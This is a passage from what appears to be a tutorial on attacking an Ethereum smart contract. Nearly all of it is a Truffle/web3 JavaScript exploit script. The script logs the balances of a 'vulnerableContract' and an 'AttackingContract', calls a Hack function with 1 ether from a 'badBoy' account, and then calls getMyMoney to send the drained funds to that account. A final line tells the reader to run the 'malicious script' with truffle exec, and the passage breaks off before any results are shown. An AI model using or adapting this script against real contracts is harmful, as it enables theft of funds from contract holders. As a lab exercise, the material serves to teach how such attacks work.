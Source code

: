 ```javascript


    let AttackerContractDonation = await vulnerableContract.balanceOf(AttackingContract.address);

    console.log(`[+] Donation Attacker\'s contract value is : ${web3.fromWei(AttackerContractDonation , 'ether')}`)


    let victimContractBalance = web3.fromWei(await web3.eth.getBalance(vulnerableContract.address) , 'ether' )

    console.log(`[+] victim contract balance now ${victimContractBalance} ether`)

    console.log( Red + '[+] Start Attacking the target')

    await AttackingContract.Hack(web3.toWei(1, 'ether') , {
        from: badBoy,
    })

    console.log('[+] check remote contract funding',web3.fromWei(await web3.eth.getBalance(vulnerableContract.address).toNumber(), 'ether'))
    
    console.log('[+] check malicious contract funding',web3.fromWei(await web3.eth.getBalance(AttackingContract.address).toNumber(), 'ether'))
    
    console.log( Red + '[+] transfer all the money to the badboy account')

    await AttackingContract.getMyMoney({
        from: badBoy
    })
    

    console.log(Blue + '[+] check badboy account balance now',web3.fromWei(await web3.eth.getBalance(badBoy).toNumber(), 'ether'))

    callback()
}

```

`then run in your terminal truffle exec your malicious script` then you will have to see results like this
